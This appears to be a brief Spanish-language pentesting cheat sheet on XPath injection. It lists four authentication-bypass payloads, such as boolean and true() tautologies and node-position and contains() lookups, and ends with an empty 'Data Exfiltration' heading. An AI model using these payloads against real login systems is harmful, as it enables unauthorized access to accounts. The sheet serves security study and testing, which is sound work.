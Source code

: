 # INFO
El xpath injection funciona parecido a las SQLI (es como una prima). Posee una sintaxis diferente y aborda los indexes de nodos dentro de un xml.

## Authentication Bypass

#### Bypass mediante boolean simple:

    admin' or '1'='1

#### Bypass mediante un true absoluto

    ' or true() or '

#### Buscar un usuario por index de nodo para el logueo

    ' or position()=2 or '

#### Bypass buscando un usuario específico:

    ' or contains(.,'admin') or '


## Data Exfiltration





    

